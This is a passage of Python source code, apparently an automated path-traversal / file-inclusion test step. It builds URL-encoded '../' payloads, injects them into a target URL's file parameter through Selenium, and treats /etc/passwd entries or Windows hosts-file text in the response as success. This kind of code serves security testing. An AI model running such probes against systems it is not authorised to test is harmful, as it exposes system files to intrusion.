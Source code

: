 ```python
        
        # Add URL encoding variations
        encoded_payloads = []
        for payload in base_payloads:
            encoded_payloads.append(payload.replace("../", "%2E%2E%2F"))
            encoded_payloads.append(payload.replace("..\\", "%2E%2E%5C"))
        
        return base_payloads + encoded_payloads

    def get_payloads(self):
        yield from self.payloads

    def execute_step(self, driver: WebDriver, payload: str):
        try:
            # Construct URL with payload
            test_url = f"{self.target_url}?{self.file_param}={payload}"
            driver.get(test_url)
            
            # Wait for page to load
            WebDriverWait(driver, 10).until(
                EC.presence_of_element_located((By.TAG_NAME, "body"))
            )
            
        except TimeoutException:
            # Page didn't load properly
            raise Exception("Page load timeout")

    def verify_result(self, driver: WebDriver) -> bool:
        page_source = driver.page_source.lower()
        
        # Check for common file contents that indicate success
        linux_indicators = [
            "root:x:0:0:",
            "/bin/bash",
            "/sbin/nologin",
            "daemon:x:"
        ]
        
        windows_indicators = [
            "# copyright (c) 1993-2009 microsoft corp.",
            "127.0.0.1       localhost",
            "::1             localhost"
        ]
        
        # Check for file content indicators
        for indicator in linux_indicators + windows_indicators:
            if indicator.lower() in page_source:
                return True
        
        # Check for error messages that might indicate partial success
        error_indicators = [
            "failed to open stream",
            "no such file or directory",
            "access denied",
            "permission denied"
        ]
        
        # These are not successes but indicate the parameter is being processed
        for indicator in error_indicators:
            if indicator in page_source:
                # Log this for manual review but don't count as success
                print(f"Potential parameter processing detected: {indicator}")
        
```